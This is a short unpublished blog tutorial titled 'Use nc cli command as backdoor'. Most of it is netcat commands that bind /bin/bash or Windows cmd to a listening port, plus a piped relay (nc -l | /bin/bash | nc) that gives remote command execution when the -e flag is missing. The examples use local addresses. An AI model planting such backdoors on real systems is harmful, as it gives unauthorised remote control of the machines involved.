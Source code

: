 ```yaml
---
layout: post
title:  "Use nc cli command as backdoor"
author: dave
date:   2023-12-20 15:30:59 +0200
categories: [Reversing, nix Security]
tags: [Reversing, nix Security, Networking]
published: false 
---
```


## Synopsis
Netcat (or nc) is a command-line utility that reads and writes data across network connections, using the TCP or UDP protocols. It is one of the most powerful tools in the network and system administrators arsenal, and it as considered as a Swiss army knife of networking tools.

Netcat is cross-platform, and it is available for Linux, macOS, Windows, and BSD. You can use Netcat to debug and monitor network connections, scan for open ports, transfer data, as a proxy, and more.


### Use 'nc' as backdoor for remote command execution
#### The easy / original way 
Earlier the **nc** command supported the **'-e'** flag which allowed the client to execute commands on the server and receive the output back on the client. This command flag may not be available anymore today on modern systems (specially macOS). But for completeness here is an example of how to use it.

**Server**

```bash
nc -l <Port> -e <command to execute>
...
nc -l 9999 -e /bin/bash
```

On Windows (Windows needs the **-p** flag for specifying the port)

```bash
nc -l -p <Port> -e <command to execute>
...
nc -l -p 6969 -e cmd
```
![_Setup Server on Windows_](../../assets/img/nc-backdoor/2023-12-20-NC-Setup-Server-Windows-NC-E-sized.png)

**Client**

```bash
nc <hostaddress> <Port>
...
nc 127.0.0.1 9999
```

On macOS

```bash
nc <hostaddress> <Port>
...
nc 192.168.64.2 6969
```

![_Setup Client on macOS_](../../assets/img/nc-backdoor/2023-12-20-NC-Setup-Client-macOS-E-sized.png)

Output on client will be something like:

For a macOS server with current directory [USERHOME]

```bash
Applications
Desktop
Documents
Downloads
Movies
Music
Pictures
...
```

#### The 'old fashioned' way
With some (newer) versions of **nc** or on macOS for example you don't have the option of using the **-e** flag for executing commands on the target. But don't despair just yet, there is another way. You can use **nc** in another way to execute commands on the target and even get response of the executed commands. It's just a little more fingerworks to do.

The basic setup involves a **server** where you accept commands just the way you would do with the **-e** command, but as long as you cannot use this flag, you will have to forward the output to the interpreter by your self. This can be done with:

```bash
nc -l 6969 | /bin/bash
```
This command on the server side will forward all incomming messages to _/bin/bash_ and execute it, so far so well! But what is with the response? If you setup the connection between server and client like this, the client will get no response what so ever from the server and that might a be little bit poor. So what can we do?

What we can do, is to use the server as some kind of relay to execute the incomming command and then forward the result to another nc connection back to the client. So how will the setup Look like? First you setup a terminal on the client with the following command listening for results:

```bash
nc -l 6968
```

Then you setup the server with the relay listening for incomming commands, executeing them and forwardening the result back to the client with:

```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

All that is left to do now is to setup a client connection to the server from where you can send commands with the following:

```bash
nc 127.0.0.1 6969
```

Now you can send commands from the client to the server and receive the results of the executed commands in the second terminal on the client.

### Overview

##### Console on CLIENT for output
```bash
nc -l 6968
```

##### Console on SERVER
```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

##### Console on CLIENT for sending commands
```bash
nc 127.0.0.1 6969
```

## Credits
- [_linuxhandbook.com_](https://linuxhandbook.com/nc-command/){:target="_blank" rel="noopener"}
- [_linuxize.com_](https://linuxize.com/post/netcat-nc-command-with-examples/){:target="_blank" rel="noopener"}
- [_unix.stackexchange.com_](https://unix.stackexchange.com/questions/352490/is-nc-netcat-on-macos-missing-the-e-flag){:target="_blank" rel="noopener"}

